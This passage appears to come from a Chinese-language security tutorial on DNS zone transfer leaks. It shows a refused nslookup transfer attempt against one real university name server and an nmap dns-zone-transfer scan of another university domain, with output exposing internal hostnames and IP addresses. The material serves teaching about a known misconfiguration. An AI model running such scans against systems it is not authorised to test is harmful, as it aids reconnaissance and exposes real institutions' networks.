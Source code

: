 攻击者能获取的敏感主要包括：

1）网络的拓扑结构，服务器集中的IP地址段

2）数据库服务器的IP地址

3）测试服务器的IP地址，

4）VPN服务器地址泄露

5）其他敏感服务器

以上示例了存在漏洞的DNS服务器，若是不存在漏洞的主机，则可能提示错误Query Refused:
```sh
D:\>nslookup
默认服务器:  public1.114dns.com
Address:  114.114.114.114

> server ns.pku.edu.cn
默认服务器:  ns.pku.edu.cn
Address:  202.112.7.13

> ls pku.edu.cn
[ns.pku.edu.cn]
*** 无法列出域 pku.edu.cn: Query refused
```
DNS 服务器拒绝将区域 pku.edu.cn 传送到您的计算机。如果这不正确，
请检查 IP 地址 202.112.7.13 的 DNS 服务器上 pku.edu.cn 的
区域传送安全设置。


使用nmap扫描DNS域传送泄露漏洞

```shell
nmap --script dns-zone-transfer --script-args dns-zone-transfer.domain=thnu.edu.cn -p 53 -Pn dns1.thnu.edu.cn

Starting Nmap 7.60 ( https://nmap.org ) at 2017-11-04 14:24 CST
Nmap scan report for dns1.thnu.edu.cn (125.223.168.5)
Host is up (0.031s latency).

PORT   STATE SERVICE
53/tcp open  domain
| dns-zone-transfer: 
| thnu.edu.cn.             SOA  dns1.thnu.edu.cn. root.thnu.edu.cn.
| thnu.edu.cn.             NS   dns1.thnu.edu.cn.
| thnu.edu.cn.             MX   0 mail.thnu.edu.cn.
| admin.thnu.edu.cn.       A    172.16.200.11
| admissions.thnu.edu.cn.  A    222.160.127.36
| alumni.thnu.edu.cn.      A    222.160.127.36
| bwc.thnu.edu.cn.         A    222.160.127.36
| cxbd.thnu.edu.cn.        A    222.160.127.36
| cxzx.thnu.edu.cn.        A    222.160.127.36
| ddh.thnu.edu.cn.         A    222.160.127.38
| DNS1.thnu.edu.cn.        A    125.223.168.5
| dwb.thnu.edu.cn.         A    222.160.127.36
| ggl.thnu.edu.cn.         A    222.160.127.36
| gjjl.thnu.edu.cn.        A    222.160.127.36
| gjjy.thnu.edu.cn.        A    222.160.127.36
| gs.thnu.edu.cn.          A    222.160.127.36
| hqc.thnu.edu.cn.         A    222.160.127.36
| hxxy.thnu.edu.cn.        A    222.160.127.36
| jcc.thnu.edu.cn.         A    222.160.127.36
| jcjy.thnu.edu.cn.        A    222.160.127.36
| jjc.thnu.edu.cn.         A    222.160.127.36
| jjfz.thnu.edu.cn.        A    222.160.127.36
| jjw.thnu.edu.cn.         A    222.160.127.36
| jky.thnu.edu.cn.         A    222.160.127.36
```